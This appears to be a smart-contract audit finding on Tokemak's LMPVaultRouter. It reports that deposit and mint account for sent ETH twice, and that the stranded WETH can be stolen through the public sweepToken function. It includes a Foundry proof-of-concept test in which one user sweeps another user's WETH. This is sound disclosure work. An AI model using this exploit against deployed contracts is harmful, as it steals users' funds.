 Clean Fuchsia Blackbird

high

# Router double accounting problem and exposed funds in smart contract
## Summary

LMPVaultRouter serves as a gateway for users to interact with LMPVault. When the user approves WETH and sends ETH with the deposit function call, the router still transfers WETH from the user even though it already got ETH with the call. Another user can watch for this and collect ETH from the router using an exposed function.

## Vulnerability Detail

Users should use LMPVaultRouter to interact with LMPVault. There are two basic functions in LMPVaultRouterBase - deposit and mint. Users can use them to deposit tokens to LMPVault. Both functions share this problem. Let's take a look at **deposit** function. It is payable so the user can send ETH with it.

```solidity
/// @inheritdoc ILMPVaultRouterBase
function deposit(
    ILMPVault vault,
    address to,
    uint256 amount,
    uint256 minSharesOut
) public payable virtual override returns (uint256 sharesOut) {
    // handle possible eth
    _processEthIn(vault);

    IERC20 vaultAsset = IERC20(vault.asset());
    pullToken(vaultAsset, amount, address(this));

    return _deposit(vault, to, amount, minSharesOut);
}
```

> [https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L43C1-L57C6](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L43C1-L57C6)

Both deposit and mint contain ```_processEthIn(vault)``` function calls. This function converts incoming ETH to WETH if possible.

```solidity
function _processEthIn(ILMPVault vault) internal {
    // if any eth sent, wrap it first
    if (msg.value > 0) {
        // if asset is not weth, revert
        if (address(vault.asset()) != address(weth9)) {
            revert InvalidAsset();
        }

        // wrap eth
        weth9.deposit{ value: msg.value }();
    }
}
```

> [https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L111C1-L122C6](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L111C1-L122C6)

After ETH is processed, the router pulls the token which in this case would be WETH. This pulled WETH would be transfered to the LMPVault but the incoming wrapped ETH would stay in the router.

Here comes the second problem. LMPVaultRouterBase inherits from PeripheryPayments. This smart contract has public functions to pull tokens out of the smart contract and anyone can call them. If the hacker is faster than the user or the user doesn't know about this, the hacker can call the function to sweep the user's WETH from the router.

```solidity
function sweepToken(IERC20 token, uint256 amountMinimum, address recipient) public payable {
    uint256 balanceToken = token.balanceOf(address(this));
    if (balanceToken < amountMinimum) revert InsufficientToken();

    if (balanceToken > 0) {
        token.safeTransfer(recipient, balanceToken);
    }
}
```

> [https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/utils/PeripheryPayments.sol#L58C1-L65C6](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/utils/PeripheryPayments.sol#L58C1-L65C6)

### POC

Add this test function to **LMPVaultRouter.t.sol**. Run it with the command ```forge test --match-contract LMPVaultRouterTest --match-test test_DoubleAccountingSweep```.

```solidity
function test_DoubleAccountingSweep() public {
    // create cyril and donald
    address cyril = makeAddr("cyril");
    address donald = makeAddr("donald");

    // deal ether
    deal(cyril, 100 ether);
    deal(donald, 100 ether);

    // cyril approves and deposits ether
    uint amount = 10 ether;
    vm.startPrank(cyril);
    weth.approve(address(lmpVaultRouter), amount);
    weth.deposit{value: amount}();
    lmpVaultRouter.deposit{value: amount}(lmpVault, cyril, amount, 0);
    vm.stopPrank();

    assert(weth.balanceOf(address(lmpVaultRouter)) == 10 ether); // cyril's WETH is left in router

    // donald sees free weth and sweeps it
    vm.prank(donald);
    lmpVaultRouter.sweepToken(weth, weth.balanceOf(address(lmpVaultRouter)), donald);

    assert(cyril.balance == 80 ether); // Cyril sent 10 ether to router and changed 10 ether to WETH
    assert(weth.balanceOf(cyril) == 0); // Router pulled cyrils 10 WETH
    assert(weth.balanceOf(address(lmpVaultRouter)) == 0); // No weth left in router
    assert(weth.balanceOf(donald) == 10 ether); // Donald stole WETH from router
}
```

## Impact

The user loses WETH because of router double accounting and it can be stolen from the router by anyone.

## Code Snippet

[https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L43C1-L57C6](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L43C1-L57C6)

[https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L111C1-L122C6](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L111C1-L122C6)

[https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/utils/PeripheryPayments.sol#L58C1-L65C6](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/utils/PeripheryPayments.sol#L58C1-L65C6)

## Tool used

Manual Review

## Recommendation

Change the logic so it wouldn't pull WETH from the user if enough ETH is included in the message call.
